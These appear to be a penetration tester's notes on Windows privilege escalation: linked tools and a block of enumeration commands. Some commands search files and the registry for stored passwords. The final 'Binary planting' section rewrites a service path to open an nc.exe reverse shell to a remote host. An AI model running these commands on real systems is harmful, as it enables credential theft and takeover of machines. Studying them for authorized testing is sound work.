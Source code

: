 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. 

# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
# Default Commands 

1. [[windows-privesc-check]]
2. [[WinPeas]]
3. [[Windows Exploit Suggester - Next Generation (WES-NG)]]
4. `net user user`


# Extra Enumeration Commands

```
// What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Printer?
route print

// ARP-arific
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!


// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```